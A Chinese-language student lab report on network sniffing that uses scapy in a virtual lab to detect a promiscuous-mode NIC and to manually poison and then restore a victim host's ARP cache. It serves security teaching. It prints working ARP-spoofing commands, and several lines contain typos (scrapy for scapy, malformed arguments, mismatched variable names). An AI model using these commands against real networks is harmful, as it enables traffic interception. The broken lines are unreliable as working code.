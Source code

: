 # 第四章 网络监听实验

## 网络拓扑

### 网络拓扑

![网络拓扑图](img/网络拓扑图.png)

### 节点信息

- 网关（Debian-gw）
  - MAC地址：08:00:27:ff:b8:28  /enp0s9
  - IP地址：172.16.111.1
- 攻击者（attacker-kali）
  - MAC地址：08:00:27:0e:95:b9
  - IP地址：172.16.111.141
- 受害者（victim-kali-1）
  - MAC地址：08:00:27:c5:c0:21 /eth0
  - IP地址：172.16.111.130



## 实验准备

### 安装scapy

```bash
# 安装 python3
sudo apt update
sudo apt install python3 python3-pip
# 安装scrapy
pip3 install scrapy[complete]
```

![scapy-install](img/scapy-install.png)



## 实验过程

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的混杂模式是否启用
ip link show eth0
```

![ip-link-show](img/ip-link-show.png)

```bash
# 在攻击者主机开启scapy 
scapy
# 直接使用scapy开启后，对于下一步的操作，会出现：Operation not permitted 的报错，提示权限有问题
# 重新尝试使用以下口令开启scapy
sudo scrpy
```

![start-scapy](img/start-scapy.png)

```bash
# 在scapy终端输入以下代码回车执行
pkt = promiscping("172.16.111.130")
```

![scapy-pkt](img/scapy-pkt.png)

```bash
# 回到受害者主机开启网卡的混杂模式
# 注意上述输出结果应该没有PROMISC 字符串
# 手动开启该网卡混杂模式
sudo ip link set eth0 promisc on
# 此时的输出结果会多出来 PROMISC
ip link show eth0
```

![set-promisc](img/set-promisc.png)

<img src="img/ip-link-show-promisc.png" alt="ip-link-show-promisc" style="zoom:80%;" />

```bash
# 回到攻击者主机的scapy交互式终端继续执行命令
# 观察两次输出结果的不同
pkt = promiscping("172.16.111.130")
```

![pkt-difference](img/pkt-difference.png)

受害者主机没有开启混杂模式时，用scapy的promiscping进行检测，可以看到有一个packet被记录下来，但是没有IP与MAC信息

在受害者主机开启混杂模式后，进行相同的检测可以看到相应的MAC地址与IP信息

promiscping命令：

- 混杂模式：接受所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
- 普通模式：网卡只接受发给本机的包

```bash
# 在受害者主机，手动关闭网卡的混杂模式
sudo ip link set promisc off
```

![set-promisc-off](img/set-promisc-off.png)



### 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码均在攻击者主机 scapy 终端完成

```bash
# 获取当前局域网的网关MAC地址
# 构造一个ARP请求
arpboradcast = Ether(dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 0,pdst= ="172.16.111.1")

#查看构造好的ARP报文请求
arpboradcast.show()
```

![arpbroadcast](img/arpbroadcast.png)

```bash
# 伪造一个网关的ARP响应包
# 攻击者主机准备发给受害者主机 IP：172.16.111.130
# ARP响应的目的MAC地址设置为攻击者主机的MAC地址 08:00:27:0e:95:b9
arpspoofed = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.130",hwdst="08:00:27:0e:95:b9")

# 发送上述伪造的ARP响应数据包
sendp(arpspoofed)
```

![arpspoofed](img/arpspoofed.png)

此时，在受害者主机上查看ARP缓存，网关的MAC地址已被替换为攻击者主机的MAC地址

```bash
ip neigh
```

![replace-mac](img/replace-mac.png)

继续回到攻击者主机scapy终端

```bash
# 回复受害者主机的ARP缓存记录
## 伪装网关给受害者发送ARP响应
restoreptk1 = Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:ff:b8:28",pdst="172.16.111.130",hwdst"08:00:27:c5:c0:21")
sendp(restorepkt1,count=100,inter=0.2)
```

![restoreptk](img/restoreptk.png)

此时，到受害者主机上准备刷新网关ARP记录

```bash
# 在受害者主机上尝试ping网关
ping 172.16.111.1
# 等ARP缓存刷新成功，退出ping
# 查看受害者主机上ARP缓存，已恢复正常网关ARP记录
ip neigh
```

![recover-gw](img/recover-gw.png)



## 参考资料

[网络安全电子教材](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

[参考资料](https://github.com/CUCCS/2022-ns-public-Xuyan-cmd/tree/chap0%C3%9704)